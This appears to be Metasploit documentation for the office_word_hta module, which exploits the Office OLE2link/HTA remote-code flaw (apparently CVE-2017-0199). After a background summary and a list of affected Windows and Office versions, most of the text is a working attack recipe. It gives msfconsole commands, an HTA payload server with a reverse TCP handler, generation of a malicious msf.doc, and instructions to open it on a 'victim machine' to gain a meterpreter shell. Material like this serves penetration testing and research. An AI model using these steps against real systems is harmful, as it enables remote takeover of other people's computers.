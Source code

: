 Microsoft Office is an office suite of applications, servers, and services developed by Microsoft. Microsoft Office contains Microsoft Word, Microsoft Excel, Microsoft PowerPoint and so on. They can support OLE data integration and Virtusl Basic for Application scripting langauage. 

FireEye detected malicious Microsoft Office RTF documents that leverage a previously undisclosed vulnerability. This vulnerability allows a malicious actor to execute a Visual Basic script when the user opens a document containing an embedded exploit. FireEye has observed several Office documents exploiting the vulnerability that download and execute malware payloads from different well-known malware families.

The attack involves a threat actor emailing a Microsoft Word document to a targeted user with an embedded OLE2link object. When the user opens the document, winword.exe issues a HTTP request to a remote server to retrieve a malicious .hta file, which appears as a fake RTF file. The Microsoft HTA application loads and executes the malicious script. In both observed documents the malicious script terminated the winword.exe process, downloaded additional payload(s), and loaded a decoy document for the user to see. The original winword.exe process is terminated in order to hide a user prompt generated by the OLE2link.


## Vulnerable Application


- Windows Vista Service Pack 2
- Windows Vista x64 Edition Service Pack 2
- Windows 7 for 32-bit Systems Service Pack 1
- Windows 7 for x64-based Systems Service Pack 1
- Windows Server 2008 for 32-bit Systems Service Pack 2
- Windows Server 2008 R2 for x64-based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2
- Windows Server 2008 for Itanium-Based Systems Service Pack 2
- Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1
- Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
- Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
- Windows Server 2012
- Windows Server 2012 (Server Core installation)
- Microsoft Office 2007 Service Pack 3
- Microsoft Office 2013 Service Pack 1 (32-bit editions)
- Microsoft Office 2013 Service Pack 1 (64-bit editions)
- Microsoft Office 2010 Service Pack 2 (32-bit editions)
- Microsoft Office 2010 Service Pack 2 (64-bit editions)
- Microsoft Office 2016 (32-bit edition)
- Microsoft Office 2016 (64-bit edition)


## Verification Steps

1. Start msfconsole
2. Do: ```use exploit/windows/misc/hta_server```
3. Do: ```set URIPATH /cve-2017-0199```
3. Do: ```run```
4. Do: ```use exploit/windows/fileformat/office_word_hta```
5. Do: ```set FILENAME msf.doc```
6. Do: ```set TARGETURI http://xxx.xxx.xxx.xxx:8080/cve-2017-0199```
7. Do: ```exploit -j```

## Demo

```
msf > use exploit/windows/misc/hta_server
msf exploit(hta_server) > show options

Module options (exploit/windows/misc/hta_server):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Exploit target:

   Id  Name
   --  ----
   0   Powershell x86


msf exploit(hta_server) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 10.97.100.101:4444
[*] Using URL: http://0.0.0.0:8080/ETTtwiMhS.hta
[*] Local IP: http://10.00.100.101:8080/ETTtwiMhS.hta
[*] Server started.
```

```
msf exploit(hta_server) > use exploit/windows/fileformat/office_word_hta
msf exploit(office_word_hta) > show options

Module options (exploit/windows/fileformat/office_word_hta):

   Name       Current Setting              Required  Description
   ----       ---------------              --------  -----------
   FILENAME                                no        The file name.
   TARGETURI  http://example.com/test.rtf  yes       The path to a online hta file.


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Office Word


msf exploit(office_word_hta) > set TARGETURI http://10.97.100.101:8080/ETTtwiMhS.hta
TARGETURI => http://10.00.100.101:8080/ETTtwiMhS.hta
msf exploit(office_word_hta) > set FILENAME msf.doc
FILENAME => msf.doc
msf exploit(office_word_hta) > run

[+] msf.doc stored at /Users/securitytest/.msf4/local/msf.doc
```

Copy /Users/securitytest/.msf4/local/msf.doc into the victim machine, and open it with Microsoft Office Word. A meterpreter will be gained.

